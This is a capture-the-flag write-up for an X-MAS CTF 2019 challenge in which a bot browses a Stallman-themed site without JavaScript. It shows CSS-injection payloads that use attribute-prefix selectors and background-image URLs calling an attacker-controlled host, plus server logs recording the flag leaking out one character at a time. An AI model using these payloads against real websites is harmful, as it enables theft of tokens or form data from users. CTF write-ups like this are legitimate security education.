 
# Free as in Freedom

> Dr. Richard Stallman is a pioneer of free software. We all know that he
> strives to protect his digital freedom by not running any non-free software
> such as JavaScript.
>
>  Can you still write an exploit for him, even though he > doesn't use these
>  modern web technologies? You need to find Stallman's own > suggestion for the
>  website.

![Screenshot](screenshot.png)

| Asset        | Note                                                          |
|--------------|---------------------------------------------------------------|
| Author       | Milkdrop                                                      |
| Category     | PPC                                                           |
| Original URL | `http://challs.xmas.htsp.ro:11003`                            |
| Attachment   | 💾 [HTML Dump][1]                                             |

## Analysis

Browsing the URL provides what appears to be the personal website of Richard
Stallman:

![Site homepage](screenshot-site.png)

It's filled with endless topics and links. However, near the bottom is a form:

![Form](screenshot-form.png)

Below the form in HTML is also:

```
<div>
  <!-- suggestions should be loaded here for Dr. Stallman to see -->
</div>
```

## Exploit

Posting anything with an `<img>` or `<style>` tag that calls home to a remote
server will show that there is a Chrome Headless browser that is checking the
website. This is their "Stallman bot" essentially:

```
/var/log/apache2/access.log:redstoneblockchain.xyz:443 1.2.3.4 - - [17/Dec/2019:11:26:34 +0000] "GET / HTTP/1.1" 200 2026 "http://127.0.0.1/?suggestion=%3Cstyle%3E%0D%0Aform+%7B%0D%0A+background-image%3A+url%28%22https%3A%2F%2Fredstoneblockchain.xyz%2Ffoot127zz%22%29%3B%0D%0A%7D%0D%0A%3C%2Fstyle%3E" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/78.0.3904.108 Safari/537.36"
```

This means there is no HTML escaping on the server. However, inserting a
`<script>` tag won't do anything because Stallman doesn't have Javascript
enabled on his 1960's PDP-100.

This means sans some kind of HTML parsing error in Chrome the only known
attack vector would be CSS rules. We have seen already that his browser will
parse the HTML and load images from our remote server we control. This means
we could style his input elements:

```
<style>
input { background-image: url("http://redstoneblockchain:9999/cool.png"); }
</style>
```

We can also set the background only for input elements that start with `x`:

```
<style>
[vaue^='x'] { background-image: url("http://redstoneblockchain.xyz:9999/x"); }
</style>
```

We can expand this method to generate a `<style>` that contains every character
as a prefix. When we get a hit on our remote server we have discovered one more
character of the secret flag:

```
[Thu Dec 19 03:39:37 2019] 1.2.3.4:51872 [200]: /X
[Thu Dec 19 03:39:50 2019] 1.2.3.4:51882 [200]: /X-MAS%7B
[Thu Dec 19 03:41:54 2019] 1.2.3.4:51914 [200]: /X-MAS%7BX
[Thu Dec 19 03:42:01 2019] 1.2.3.4:51924 [200]: /X-MAS%7BXS
[Thu Dec 19 03:42:11 2019] 1.2.3.4:51934 [200]: /X-MAS%7BXSS
[Thu Dec 19 03:42:19 2019] 1.2.3.4:51948 [200]: /X-MAS%7BXSS-
[Thu Dec 19 03:42:27 2019] 1.2.3.4:51958 [200]: /X-MAS%7BXSS--
[Thu Dec 19 03:42:31 2019] 1.2.3.4:51964 [200]: /X-MAS%7BXSS--S
[Thu Dec 19 03:42:35 2019] 1.2.3.4:51970 [200]: /X-MAS%7BXSS--St
[Thu Dec 19 03:42:50 2019] 1.2.3.4:51998 [200]: /X-MAS%7BXSS--St4
[Thu Dec 19 03:42:54 2019] 1.2.3.4:52006 [200]: /X-MAS%7BXSS--St4l
[Thu Dec 19 03:43:07 2019] 1.2.3.4:52022 [200]: /X-MAS%7BXSS--St4ll
[Thu Dec 19 03:43:10 2019] 1.2.3.4:52064 [200]: /X-MAS%7BXSS--St4llm
[Thu Dec 19 03:43:17 2019] 1.2.3.4:52076 [200]: /X-MAS%7BXSS--St4llm4
[Thu Dec 19 03:43:20 2019] 1.2.3.4:52080 [200]: /X-MAS%7BXSS--St4llm4n
[Thu Dec 19 03:43:35 2019] 1.2.3.4:52138 [200]: /X-MAS%7BXSS--St4llm4n-
[Thu Dec 19 03:43:40 2019] 1.2.3.4:52144 [200]: /X-MAS%7BXSS--St4llm4n-A
[Thu Dec 19 03:43:43 2019] 1.2.3.4:52150 [200]: /X-MAS%7BXSS--St4llm4n-Ap
[Thu Dec 19 03:43:46 2019] 1.2.3.4:52154 [200]: /X-MAS%7BXSS--St4llm4n-App
[Thu Dec 19 03:43:48 2019] 1.2.3.4:52200 [200]: /X-MAS%7BXSS--St4llm4n-Appr
[Thu Dec 19 03:43:54 2019] 1.2.3.4:52208 [200]: /X-MAS%7BXSS--St4llm4n-Appr0
[Thu Dec 19 03:43:57 2019] 1.2.3.4:52212 [200]: /X-MAS%7BXSS--St4llm4n-Appr0v
[Thu Dec 19 03:43:59 2019] 1.2.3.4:52216 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ve
[Thu Dec 19 03:44:02 2019] 1.2.3.4:52222 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ved
[Thu Dec 19 03:45:51 2019] 1.2.3.4:52304 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ved!
[Thu Dec 19 03:49:56 2019] 1.2.3.4:52406 [200]: /X-MAS%7BXSS--St4llm4n-Appr0ved!%7D
```
